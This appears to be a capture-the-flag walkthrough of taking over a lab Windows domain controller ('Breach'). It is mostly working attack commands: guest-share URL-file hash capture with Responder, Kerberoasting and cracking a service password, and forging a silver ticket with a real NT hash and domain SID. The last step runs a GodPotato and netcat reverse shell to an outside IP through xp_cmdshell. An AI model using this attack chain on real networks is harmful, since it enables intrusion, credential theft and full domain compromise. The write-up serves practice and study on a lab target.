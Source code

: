 
![](Breach_Cover.png)




```
[*] Windows Server 2022 Build 20348 x64 (name:BREACHDC) (domain:breach.vl) (signing:True) (SMBv1:False)

PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
1433/tcp open  ms-sql-s
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
```


Guest Share is accessible with write permission !

```
└─# crackmapexec smb 10.10.119.39 -u guest -p '' --shares
```


![](Guest_Access_.png)


## URL FILE ATTACK

We can perform this attack when we got write access to any share.

Interested Victim clicks the url file , Boom We get  [hash](https://github.com/xct/hashgrab) !


![](INternet_Short.png)


![](scf_attack.png)


![](scf_attacked.png)


If someone clicks on the url we get hash ! Start Responder !

```
└─# responder -I tun0 -v
```

![](../MEDIA_/Responder_Hash.png)

If they use simple password , thats good !

![](Crack_Creds.png)




## SVC_MSSQL

Cool ! We got domain user and a lot of possibilities to enumerate.

```
└─# impacket-GetUserSPNs breach.vl/julia.wong:Computer1 -dc-ip 10.10.119.39 -request
```


![](MSSQL_hash.png)

Cracking the SPN . 

```
└─# john --wordlist=/usr/share/wordlists/rockyou.txt mssql_svc.hash
```

![](SPN_Cracked.png)



SERVICE TICKET CHA BHANNE --> GENERATE FUCKING SILVER TICKET !!



Convert password --< hash
```
└─# crackmapexec smb 10.10.119.39 -u svc_mssql -H 69596C7AA1E8DAEE17F8E78870E25A5C
```


Lookup for the domain sids:

```
└─# impacket-lookupsid breach.vl/svc_mssql:Trustno1@10.10.119.39 -domain-sids
```


Generate a Silver Ticket !
```
└─# impacket-ticketer -nthash 69596C7AA1E8DAEE17F8E78870E25A5C -domain-sid S-1-5-21-2330692793-3312915120-706255856 -domain breach.vl -spn 'MSSQLSvc/breach.vl' Administrator
```

Export It !
```
└─# export KRB5CCNAME=Administrator.ccache
```


Explore!
```
┌──(root㉿BHASHMA)-[~/BACK_TO_THE_GAME/BREACH]
└─# impacket-mssqlclient breach.vl -k -no-pass 
```


![](Svc_Mssql.png)


Upload GodPotato and nc for the attack !

```
SQL (BREACH\Administrator  dbo@master)> xp_cmdshell C:\Users\Public\God.exe -cmd "cmd /c C:\Users\Public\nc64.exe 10.8.0.148 1337 -e C:\windows\system32\cmd.exe"
```

![](SYSTEM_.png)


WE OWN THE DC ! FOR PERSISTENCE WE CAN RUN ANY C2 !!




